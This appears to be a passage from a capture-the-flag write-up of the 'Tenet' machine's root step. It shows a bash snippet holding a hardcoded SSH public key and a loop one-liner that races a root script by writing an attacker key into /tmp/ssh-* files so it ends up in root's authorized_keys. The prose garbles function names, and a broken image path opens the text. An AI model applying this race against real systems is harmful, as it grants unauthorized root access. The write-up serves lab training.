 ```bash
key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

First the script will create a ssh-file in temp directory. `checkFile` will check the existance of the file then `checkFile` will add the hardcoded ssh  public key to root's `authorized_key` file. Lets create a script for checking the exitance of ssh file using loop and add our public key to the file

```while true; do for file in /tmp/ssh-*; do echo "ssh-rsa BHNY+X0HdMPb2hknWpb2pLaHG4bJCAR+1QicX9C2hDI1g+3AReT583Up22a8a1egnKbZ/L3mbKfSIc=" > $file; done; done
```

![](/Writeups/Tenet/Pasted image 20210613041541.png)

# Root
![](/Writeups/Tenet/Pasted image 20210613041654.png)

[Back](/writeup2)